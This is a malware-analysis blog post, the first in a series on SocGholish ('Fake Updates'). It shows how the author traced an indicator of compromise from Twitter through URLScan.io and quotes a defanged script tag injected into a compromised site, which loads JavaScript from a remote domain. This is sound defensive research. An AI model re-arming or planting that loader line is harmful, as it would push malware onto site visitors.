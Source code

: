 ```yaml
---
title: "SocGholish Series - Part 1"
date: 2023-01-12T15:57:49-06:00
draft: false 
comments: false
type: "posts"
---
```


---
{{< pswp-init >}}
For my first attempt at malware analysis blogging, I wanted to go with something familiar. I've seen the "Fake Updates" or SocGholish breed of malware both at work and during personal research, so I decided to begin here. 

One can find many useful, and far better, analysis on this malware from many fantastic researchers simply with light Googling. My intent is not to break new ground, but rather to get the hang of transcribing my thought process and methods in a succinct and understandable way -- once I've accomplished this, then I will begin to attempt to poke around in the unknown.

---


### Starting Out

For those who may not be aware, social media is a great place for finding IOCs, or indicators of compromise. Simply head to the Twitter Explore page and search a particular malware family. Note: as of today it appears Twitter no longer allows non-user accounts to sort the Explore results by "recent", which makes things a bit more difficult. _Edit_: I spoke too soon, the feature appears to be back as of 1/26/23.

Nevertheless, using Twitter I searched for "SocGholish" and found a tweet published a few days ago from @RootkitHalo 

https://twitter.com/RootkitHalo/status/1610647981266698242?s=20&t=btWSUQgaXQXCe6G8YaEygw. 

{{< figure src="images/tweet.png" alt="twitter" position="center" thumb="-thumb" >}}


It appears sapboost[.]com may be worth checking out. I dropped it into [URLScan.io](URLScan.io) to take an initial look.
Scrolling through the DOM section, I noticed a suspicious script referencing a domain with a long path. Based on previous investigations, this looks similar to injected scripts I have seen on other compromised sites, all of which led to a SocGholish payload.


{{< figure src="images/urlscan.png" alt="urlscan" position="center" >}}
```js
 <script async="" src="hxxps://taxes[.]rpacx[.]com/Db3LT4AuAlbSGri9pNj490sUTJorxDreSplsr42KB4ISAegLswAiDwMbb2EvZCqw" type="d2be214ae0a8a44b9a5aa916-text/javascript"> 
```

Note: Based on past experience, URLScan.io will not always capture these injected JavaScript snippets on compromised sites. In some cases, there appears to be some logic in place which looks for a referrer, and if one is not found, the JavaScript will not be written to the page. I am not certain, but I believe in some cases Google Tags may be repurposed for this sort of activity. If you ever run into this issue, a simple cURL command should suffice.
